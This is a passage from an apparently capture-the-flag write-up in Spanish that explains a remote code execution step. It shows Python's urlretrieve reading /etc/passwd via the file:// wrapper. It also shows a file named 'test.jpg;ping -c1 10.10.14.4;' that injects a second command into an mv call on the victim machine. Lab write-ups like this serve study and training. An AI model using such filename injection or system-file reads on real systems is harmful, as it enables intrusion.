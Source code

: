 - Remote Code Execution (Explicación)

```bash
❯ python3 
```

```python
Python 3.13.2 (main, Mar 13 2025, 14:29:07) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import urllib.request
>>> local_filename, headers = urllib.request.urlretrieve("file:///etc/passwd")
>>> print(local_filename)
/etc/passwd
```

> Teniendo en cuenta la función anterior vemos que extrae el archivo de la url proporcionada para después ejecutar un comando con la librería os. Para poder ejecutar comandos podemos aprovecharnos del wrapper file:// para leer archivos del sistema. Sabiendo esto, necesitamos subir un archivo a la máquina víctima con un nombre malicioso, por ejemplo: 

```
test.jpg;ping -c1 10.10.14.4;
```

> El comando que se ejecutará por detrás al proporcionar este archivo como url será el siguiente:

```bash
mv test.jpg;ping -c1 10.10.14.4; test.jpg;ping -c1 10.10.14.4;jpg" 
```

> De esta forma estaremos inyectando un comando en la máquina víctima.

- Remote Code Execution (Explotación)

```bash
❯ touch 'test.jpg;ping -c1 10.10.14.4;'
```

![](/img2/Pasted%20image%2020250627234652.png)
